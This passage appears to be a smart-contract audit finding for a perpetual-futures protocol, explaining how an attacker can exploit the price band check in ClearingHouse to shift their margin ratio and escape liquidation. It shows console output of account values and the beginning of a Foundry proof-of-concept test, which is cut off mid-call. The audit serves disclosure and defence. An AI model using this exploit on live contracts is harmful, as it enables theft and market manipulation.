 When the program executes to `ClearingHouse::_checkPriceBand()`, it will encounter two situations:
1. Since `ClearingHouse::_getPrice()` and `OracleMaker::_getPrice()` call the same target contract, unless there are special circumstances, the marketId will most likely ignore `price band ratio`, that is, `price band ratio == 0`, An attacker can freely enter any `result.quote` greater than 0.Margin can be significantly modified through multiple operations,Also use the test process of the POC below. At the price of 100e18, a short position of 1ether is opened. It cannot be liquidated when the price is 199e18.
https://github.com/sherlock-audit/2024-02-perpetual/blob/main/perp-contract-v3/src/clearingHouse/ClearingHouse.sol#L466-L468
2. If `Config::setPriceBandRatio` is called to set the corresponding value, such as `price band ratio = 10%`, then the attacker only needs to ensure `result.quote.abs().divWad(result.base.abs() ) >= lowerPrice`.`ClearingHouse::_checkPriceBand()` will execute normally(It is worth noting that the price difference between `lowerPrice` and `upperPrice` may amplify the margin gap when trading),
Finally execute `Vault.settlePosition()`
According to the situation of `price band ratio = 10%`, the attacker's `marginRequirement` is reduced and `marginRatio` is increased. At this time, the previous liquidation price can no longer liquidate the attacker's position.
```zsh
  Margin 105000000000000000000
  UnrealizedPnl -5000000000000000000
  AccountValue 100000000000000000000
  MarginRequirement.INITIAL 9500000000000000000
  MarginRequirement.MAINTENANCE 5937500000000000000
  FreeCollateralForTrade 90500000000000000000
  PositionSize -1000000000000000000
  FreeMargin 100000000000000000000
  FreeCollateral 90500000000000000000
  MarginRatio 1052631578947368421
  OpenNotional 95000000000000000000
```
In the end, the attacker only needs to wait for the price to return to expectations before closing the position on his own.
### Poc
example: price band ratio == 10%
(When `price band ratio == 0`, you only need to modify `makerData` to a very small value and execute self-trading multiple times, and the strong liquidation price will deviate significantly.)
Please add it to `Liquidate.int.t.sol` to execute
```js
    // Modify liquidation price
    // 1. The attacker creates a short position on the maker
    // 2. The attacker sets himself as the maker and sets makerData to execute the transaction
    // 3. If the price drops, the attacker's liquidation price will be much higher than the predetermined liquidation price, making it impossible to be liquidated.
    // 4. Waiting for the price to return to expectations, the attacker closes the position on his own
    function testModifyAccountMarginRatio() public {
        // init attacker
        address attacker = makeAddr("attacker");
        uint256 attackerStartCollateralToken = 100e6;
        _deposit(marketId, attacker, attackerStartCollateralToken);
        // set PriceBandRatio -> 10%
        config.setPriceBandRatio(marketId, 0.1 ether);
        // set price -> 100e18
        maker.setBaseToQuotePrice(100e18);
        _mockPythPrice(100, 0);
        vm.startPrank(attacker);
        ////////////////////////////////////
        ///// short 1 ether in maker ///////
        ////////////////////////////////////
        // attacker short 1 ether in maker
        clearingHouse.openPosition(
            IClearingHouse.OpenPositionParams({
                marketId: marketId,
```